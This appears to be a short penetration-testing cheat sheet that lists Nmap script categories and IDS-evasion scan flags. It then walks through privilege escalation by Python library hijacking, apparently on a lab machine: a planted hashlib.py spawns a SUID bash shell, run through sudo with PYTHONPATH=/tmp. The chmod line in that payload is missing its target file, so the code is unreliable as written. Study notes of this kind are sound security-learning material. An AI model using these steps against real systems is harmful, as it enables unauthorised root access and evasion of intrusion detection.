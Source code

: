 ##### Nmap Script Scan Types:
```
    safe:- Won't affect the target
    intrusive:- Not safe: likely to affect the target
    vuln:- Scan for vulnerabilities
    exploit:- Attempt to exploit a vulnerability
    auth:- Attempt to bypass authentication for running services (e.g. Log into an FTP server anonymously)
    brute:- Attempt to bruteforce credentials for running services
    discovery:- Attempt to query running services for further information about the network (e.g. query an SNMP server).
```

##### Nmap default Scripts 
```
/usr/share/nmap/scripts/script.db
```

##### Firewall Evasion With Nmap
```
##### Nmap SYN Scan
During this scan only half packet is sent and reset flag is sent at end. This allows attacker to bypass old IDS.

-pN [Continues Scanning even if the host is not responding to ICMP packet]
-f [Breaks packet into fragments of Packets]
--scan-delay <time>ms [USeful if the network is unstable]
```

##### Privilege Escalation Via Python Library Hijacking
```
Vulnerable hashlib.py
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()


```

Here, we dont have write permission on the hashlib.py file but have write perm in the library hashlib

#### Create following file in /tmp directory with SUID flag set
```
hashlib.py
#!/usr/bin/env python3

import os
os.system("cp /bin/bash /tmp/bash; chmod +s; /tmp/bash")

```

##### sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
